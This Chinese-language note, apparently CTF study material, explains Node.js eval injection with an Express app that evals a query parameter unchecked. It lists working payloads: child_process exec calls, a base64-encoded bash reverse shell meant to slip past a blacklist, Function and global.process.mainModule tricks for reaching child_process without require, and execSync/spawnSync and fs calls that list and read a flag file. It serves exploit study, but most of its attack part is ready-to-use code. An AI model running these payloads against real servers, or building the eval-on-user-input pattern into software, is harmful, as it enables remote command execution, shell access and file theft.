

eval()函数执行其中的js代码，和PHP的eval函数一样

```javascript
const express = require("express");
const app = express();

app.get('/', function(req,res){
	res.end('Try to RCE');
})

app.get('/evil', function(req, res){
	res.send(eval(req.query.q));
	console.log(req.query.q);
})


const server = app.listen(8888, function(){
	console.log("Server Starts http://127.0.0.1:8888/")
})
```

Node.js中的child_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

> 弹计算器 q=require('child_process').exec('calc');
>
> 反弹shell q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');   // base64编码绕过黑名单
>
> // bash -i >& /dev/tcp/127.0.0.1/3333 0>&1
>
> 注意：BASE64加密后的字符中有一个+号需要url编码为%2B(URL传参时)

对于Function来说上下文并不存在require，需要从global中一路调出来exec。若上下文没有require，

可以使用`Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();`

或`Function("global.process.mainModule.require('child_process').exec('calc')")();`



其他函数：

间隔两秒执行函数：

- setInteval(some_function, 2000)

两秒后执行函数：

- setTimeout(some_function, 2000);

```javascript
?eval=require('child_process').execSync('ls');
?eval=require('child_process').execSync('ls').toString();
?eval=require('child_process').spawnSync('ls').output;
?eval=require('child_process').spawnSync('ls').stdout;

?eval=require('child_process').execSync('cat fl00g.txt');
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;

读文件
?eval=require('fs').readdirSync('.');
?eval=require('fs').readFileSync('fl00g.txt');
```

有时候在命令执行中使用全局变量去探测可能会有奇效
`__dirname`、`__filename`